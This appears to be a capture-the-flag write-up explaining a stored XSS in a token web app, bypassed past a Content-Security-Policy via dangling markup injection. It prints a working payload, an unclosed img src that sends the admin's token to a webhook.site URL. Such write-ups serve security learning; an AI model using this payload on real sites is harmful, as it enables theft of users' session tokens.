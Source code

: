 1. Obtain Token (/token)

2. Token Verification (/verify)

3. Report Issue (/do-report)

### Obtain Token

`Purpose of this endpoint: Obtain token/View token if user already possesses a token` 

The obtain token form is vulnerable to a **stored XSS** attack, where instead of typing in my username I  can input a script that will be subsequently retrieved from the /verify endpoint when I search up my token value. 

```javascript
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none';
```

Looking at the content security policy, the normal *\<script\>* cannot be used and I need to use an image source tag (*\<img src>*) to perform the XSS. I initially struggled with finding out how to retrieve the DOM element and send it to my webhook. 

After doing some research and taking into account that the provided script will be executed *twice*, I found a link on [Dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) that would be able to retrieve the value of the token. This involves not closing the *src* attribute, leaving it '*dangling*' and causing the browser to URL-encode all input until it encounters a termination single quotation mark. This allows us to <u>obtain the value of the admin token since it would be considered part of the URL</u>.

I also noted the need to close off the opened tag with a " and add a query parameter (?a=) since the result has spaces in between

- **"><img src="https://webhook.site/6c871fe0-36b4-4eea-8948-da2b87ad91ba?a=**

![](Screenshots/2022-09-09-16-44-03-image.png)

### Token Verification

`Purpose of this endpoint: Provides the owner of the token based on the value of the token that is supplied`

After obtaining our token, we want the admin to visit this page, as it would retrieve our 'username' and execute the script that we earlier entered in the username field.

![](Screenshots/2022-09-09-16-43-20-image.png)

